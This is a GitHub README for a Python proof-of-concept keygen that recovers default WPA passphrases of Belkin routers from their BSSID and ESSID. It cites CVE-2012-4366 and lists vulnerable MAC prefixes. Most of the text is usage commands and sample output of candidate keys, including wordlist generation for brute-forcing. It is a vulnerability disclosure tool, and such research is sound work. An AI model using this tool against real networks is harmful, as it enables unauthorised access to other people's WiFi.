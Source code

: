 Vulnerability on WPA generation algorithm on Belkin routers 
==

+ PoC Keygen for WiFi routers manufactured by Belkin. So far only WiFi networks with essid like Belkin.XXXX, Belkin_XXXXXX, belkin.xxx and belkin.xxxx are likely vulnerable, although routers using those macaddresses could be vulnerable as well.

References
----

* [0] PDF by NumLock:  http://ednolo.alumnos.upv.es/papers/wifi/BELKIN_WPA_algorithm.pdf
https://forums.kali.org/showthread.php?18943-Belkin-SSID-and-WPA-WPA2-correlation
* [1] CVE-2012-4366 :  Insecure default WPA2 passphrase in multiple Belkin wireless routers
http://www.jakoblell.com/blog/2012/11/19/cve-2012-4366-insecure-default-wpa2-passphrase-in-multiple-belkin-wireless-routers/
* [2] Bruteforce by using oclHashcat : http://ednolo.alumnos.upv.es/?p=1686
https://www.youtube.com/watch?v=iyJIwr6Ca3U
* [3] CVE-2012-6371: Insecure default WPS pin in some Belkin wireless routers
http://ednolo.alumnos.upv.es/?p=1295


Contact
----

Coder  : Eduardo Novella    Twitter : [@enovella_](https://twitter.com/enovella_) && [@WiFiSlaX4](https://twitter.com/WiFiSlaX4_)     
Website: (http://ednolo.alumnos.upv.es/)


Changelog
----
- 1.5   [2014-05-09] Bruteforce function more readable
- 1.4   [2014-05-06] Fixed an exception with only -a as parameter, remove "ghost model"(F9J1101) and leave out ORDER_3
- 1.3   [2014-04-04] Fixed an exception with bssids like larger or equal than FF:FF:FF:FF:FF:FE
- 1.2   [2014-04-01] Added extra keys when it's being used flag -allkeys, fixed file writing  when -a is not activated
- 1.1   [2014-03-31] Delete duplicate keys. New order
- 1.0   [2014-03-29] First version. 


Licence
----
GPLv3
http://gplv3.fsf.org/

More info
----

+ http://ednolo.alumnos.upv.es

Usage
----

	$ python belkin4xx.py -h
	usage: belkin4xx.py [-h] [-b [BSSID]] [-e [ESSID]] [-v] [-w [WORDLIST]]
		            [-a | -l]

	>>> Keygen for WiFi routers manufactured by Belkin. So far only WiFi networks
	with essid like Belkin.XXXX, Belkin_XXXXXX, belkin.xxx and belkin.xxxx are
	likely vulnerable, although routers using those macaddresses could be
	vulnerable as well. Twitter: @enovella_ and email: ednolo[at]inf.upv.es

	optional arguments:
	  -h, --help            show this help message and exit
	  -v, --version         show program's version number and exit
	  -w [WORDLIST], --wordlist [WORDLIST]
		                Filename to store keys
	  -a, --allkeys         Create all possible cases. Definitely recommended if
		                first attempt fails
	  -l, --list            List all vulnerable mac address so far

	required:
	  -b [BSSID], --bssid [BSSID]
		                Target bssid
	  -e [ESSID], --essid [ESSID]
		                Target essid. [BelkinXXXX,belkin.XXXX]

	(+) Help: python belkin4xx.py -b 94:44:52:00:C0:DE -e Belkin.c0de


	$ python belkin4xx.py -l
	[+] Possible vulnerable targets so far:

		 essid: Belkin.XXXX
		 essid: Belkin_XXXXXX
		 essid: belkin.xxxx
		 essid: belkin.xxx

		 bssid: 94:44:52:uv:wx:yz 
		 bssid: 08:86:3B:uv:wx:yz 
		 bssid: EC:1A:59:uv:wx:yz 

	$ python belkin4xx.py -b 94:44:52:00:C0:DE -e Belkin.c0de
	[+] Your WPA key might be :
	040D93B0

	$ python belkin4xx.py -b 94:44:52:00:ce:d0 -e belkin.ed0
	[+] Your WPA key might be :
	d49496b9

	$ python belkin4xx.py -b 94:44:52:00:ce:d0 -a
	[+] Your WPA keys might be :
	64949db9
	D40493B0
	649996b9
	649496b9
	d49496b9
	34029DB0
	d49996b9
	D40293B0
	64999db9
	340493B0
	34009DB0
	340093B0
	34049DB0
	340293B0
	D40093B0


	$ python belkin4xx.py -b 94:44:52:00:ce:d0 -a -w keys.txt
	$ cat keys.txt 
	64949db9
	D40493B0
	649996b9
	649496b9
	d49496b9
	34029DB0
	d49996b9
	D40293B0
	64999db9
	340493B0
	34009DB0
	340093B0
	34049DB0
	340293B0
	D40093B0







	
